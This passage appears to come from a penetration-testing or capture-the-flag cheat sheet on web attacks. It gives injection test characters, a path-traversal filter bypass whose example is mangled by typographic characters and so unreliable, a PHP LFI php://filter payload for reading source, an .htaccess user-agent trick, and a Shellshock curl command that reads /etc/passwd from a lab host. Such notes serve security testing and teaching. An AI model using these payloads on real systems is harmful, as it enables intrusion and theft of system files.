   ```none
  (‘, “, {, ;, |, &&, \, /, !(), %…)
  ```

  in all input fields (GET- and POST parameters and Cookies) and check for uncommon responses or error messages.
- To detect blind vulnerabilities (SQL injection, command injection, XSS, …) you can use time delays or requests to one of your web servers (check the access logs).
- If you can provide a path or a filename to the website, you should test for path traversal vulnerabilities. If the application replaces the

  ```none
  “../”
  ```

  with an empty string, you can try to bypass it by injecting the sequence two times, like:
  
  ```none
  “…/./”.
  ```
  
  If the “../” in the center gets replaced, the application will again work with “../”. You can also try different encodings or other removed characters. Moreover, you can try to create or upload (e.g. via archives) a symbolic link.
- If you found a LFI (local-file-inclusion) vulnerability in a PHP website and you want to read the PHP scripts, you can use php-filter (you can’t normally read .php files because the inclusion would try to execute the code instead of displaying it;
with php-filter you can first base64-encode the content to display it):

  ```none
  index.php?filename=php://filter/convert.base64-encode/resource=index.php
  ```

#### htaccess - UserAgent

When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

```none
cat .htaccess 
BrowserMatchNoCase "iPhone" allowed

Order Deny,Allow 
Deny from ALL 
Allow from env=allowed 
ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”
```

#### CGI-BIN Shellshock

To understand shellshock few blogs can be referred such as [ShellShocked – A quick demo of how easy it is to exploit](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/) , [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

```none
curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat
```
